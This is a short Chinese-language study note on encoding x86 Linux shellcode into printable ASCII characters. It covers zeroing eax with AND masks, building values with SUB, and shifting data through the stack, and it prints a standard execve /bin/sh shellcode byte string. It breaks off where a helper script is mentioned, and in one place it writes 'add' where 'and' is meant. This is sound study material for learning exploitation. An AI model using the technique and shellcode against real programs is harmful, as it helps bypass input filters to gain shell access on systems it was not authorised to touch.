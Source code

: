 简介 : 
```
可打印字符(发现一个经验 , 如果需要反复对内存进行 malloc/free 操作的时候 , malloc后要 memset(pointer, 0 , size))
```
环境 : 
```
Linux x86
```
分析 : 
```
可打印的指令 : 
	and eax, [NUMBER]		
	sub eax, [NUMBER]
	push eax
	pop eax
	push esp
	pop esp
```
方法 : 
```
1. 使用 and 来清空 eax 
2. 在 eax 清空后 , 可以使用 sub 指令来将 eax 设置为任意值 (缠绕的思想)
3. 通过 (push eax , pop esp) 以及 (push esp , pop eax) 可以进行 esp 和 eax 之间的数据转移
4. 这样就可以首先将已经写好的一段 shellcode 使用第 1 步和第 2 步进行转换
5. 转换的结果当然都是可打印字符 , 这样编码完成后 , 我们就可以使用第 2 步来将真正的shellcode压入栈
6. 调整栈指针 , 让 shellcode 执行
```
可打印字符的特点 : 
```
ASCII 的范围是 32 - 127
也就是 : 
0010 0000 - 0111 1111
我们如何来使用只有 ASCII 的指令将 eax 清空呢 ? 
01010101 & 10101010 = 0
[I] & [0] = 0 (0x49, 0x30)
这样就可以达到清空的效果 , 当然这个也可以随意调整 , 只要能保证按位与之后为 0 即可
add eax, 49494949H
add eax, 30303030H
汇编之后的机器码为 : 
8048065:	25 49 49 49 49			and    $0x49494949,%eax
804806a:	25 30 30 30 30			and    $0x30303030,%eax
可以看到都是可打印字符 , 而且已经绕过了诸如 : * / \ 这样的特殊字符
```
一段正常的shellcode : 
```
\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\x99\xcd\x80
```
我们现在要使用 sub 指令来将 eax 一个一个调整为 shellcode 中的数据
然后再将其压到栈上
首先看第一个 : 
\x31\xc9\x51\x68
为了提高效率我们这里可能需要写一个脚本来进行运算

